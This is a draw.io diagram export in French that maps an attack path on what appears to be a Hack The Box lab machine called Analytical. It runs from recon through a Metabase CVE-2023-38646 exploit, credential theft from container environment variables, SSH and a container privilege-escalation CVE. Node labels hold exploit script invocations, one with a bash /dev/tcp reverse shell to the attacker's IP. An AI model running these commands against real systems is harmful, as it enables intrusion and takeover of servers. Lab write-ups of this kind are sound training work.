

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1606" dy="770" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="oPWxyFHtdCuirfmGRAih-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-1" target="oPWxyFHtdCuirfmGRAih-5">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="420" y="430" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-1" value="10.10.11.233" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="360" y="290" width="120" height="60" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-10" target="oPWxyFHtdCuirfmGRAih-7">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="350" y="440" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-5" target="oPWxyFHtdCuirfmGRAih-8">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-5" value="nmap" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="390" y="380" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-7" target="oPWxyFHtdCuirfmGRAih-15">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="-10" y="500" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-7" target="oPWxyFHtdCuirfmGRAih-18">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="10" y="520" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-7" value="http" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="-40" y="430" width="80" height="20" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-47" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-8" target="oPWxyFHtdCuirfmGRAih-46">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-8" value="ssh" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="480" y="450" width="80" height="20" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-5" target="oPWxyFHtdCuirfmGRAih-10">
      <mxGeometry relative="1" as="geometry">
        <mxPoint y="430" as="targetPoint" />
        <mxPoint x="390" y="395" as="sourcePoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-10" value="entrées dns dans /etc/hosts" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
      <mxGeometry x="105" y="380" width="170" height="30" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-26" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-15" target="oPWxyFHtdCuirfmGRAih-28">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="160" y="575" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-15" value="quelles technologies ?&lt;div&gt;site, nuclei, burp, wappanalyser&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="60" y="510" width="200" height="40" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-18" target="oPWxyFHtdCuirfmGRAih-20">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="-200" y="620" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-18" value="sous-domaines et pages" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="-210" y="460" width="90" height="50" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-20" value="analytical.htb" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="-350" y="520" width="100" height="20" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-25" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-21" target="oPWxyFHtdCuirfmGRAih-15">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-21" value="data.analytical.htb" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="-100" y="520" width="100" height="20" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-22" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.637;entryY=-0.05;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-18" target="oPWxyFHtdCuirfmGRAih-21">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-30" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-31" target="oPWxyFHtdCuirfmGRAih-29">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-36" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-37" target="oPWxyFHtdCuirfmGRAih-33">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-28" value="CVE-2023-38646&lt;br&gt;Metabase (soft public pour de la data analyse)" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="100" y="590" width="120" height="80" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-29" value="script POC&lt;div&gt;python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/auth/login --lhost 10.10.14.12 --lport 8888&amp;nbsp;&lt;br&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
      <mxGeometry x="-730" y="610" width="650" height="40" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-28" target="oPWxyFHtdCuirfmGRAih-31">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="100" y="630" as="sourcePoint" />
        <mxPoint x="-235" y="770" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-31" value="api session" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="-40" y="615" width="80" height="30" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-40" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-43" target="oPWxyFHtdCuirfmGRAih-42">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="160" y="940" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-33" value="script exploit&lt;div&gt;python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i &amp;gt;&amp;amp; /dev/tcp/10.10.14.12/8888 0&amp;gt;&amp;amp;1'&lt;br&gt;&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="-95" y="830" width="510" height="50" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-28" target="oPWxyFHtdCuirfmGRAih-37">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="160" y="670" as="sourcePoint" />
        <mxPoint x="160" y="830" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-37" value="shell" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="130" y="740" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-42" target="oPWxyFHtdCuirfmGRAih-8">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-42" value="- container&lt;div&gt;&lt;span style=&quot;background-color: initial;&quot;&gt;- env: user &amp;amp; passwd&lt;/span&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="95" y="970" width="130" height="50" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-44" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="oPWxyFHtdCuirfmGRAih-33" target="oPWxyFHtdCuirfmGRAih-43">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="160" y="970" as="targetPoint" />
        <mxPoint x="160" y="880" as="sourcePoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-43" value="linpeas.sh" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="130" y="910" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="oPWxyFHtdCuirfmGRAih-46" value="&lt;div&gt;&lt;span style=&quot;text-wrap: nowrap;&quot;&gt;vuln sur containers&lt;/span&gt;&lt;/div&gt;&lt;span style=&quot;text-wrap: nowrap;&quot;&gt;CVE-2023-2640-CVE-2023-32629&lt;/span&gt;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
      <mxGeometry x="420" y="550" width="200" height="50" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>